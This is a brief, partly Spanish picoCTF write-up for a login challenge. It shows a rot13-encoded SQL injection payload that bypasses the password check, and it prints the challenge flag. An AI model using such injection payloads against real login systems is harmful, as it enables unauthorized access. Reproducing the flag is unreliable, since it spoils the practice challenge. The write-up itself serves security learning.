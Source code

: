 ## descripcion
There is a secure website running at `https://jupiter.challenges.picoctf.org/problem/40742/` ([link](https://jupiter.challenges.picoctf.org/problem/40742/)) or http://jupiter.challenges.picoctf.org:40742. Try to see if you can login as admin!

## pistas
Seems like the password is encrypted.


## Solution

por medio de la web se realizo el metodo 

en este problema se encripta la contraseña con rot13 por lo que cambia nuestra injeccion sql

se tiene que convertir la contraseña en rot13 para que asi se pueda ingresar cuando el encriptador la encripte.

```
password: ' or 1==1;
SQL query: SELECT * FROM admin where password = '' be 1==1;'



password: ' be 1==1;
SQL query: SELECT * FROM admin where password = '' or 1==1;'

# Logged in!

Your flag is: picoCTF{3v3n_m0r3_SQL_4424e7af}

```

## notas

Comandos utilizados:
	1.

## references
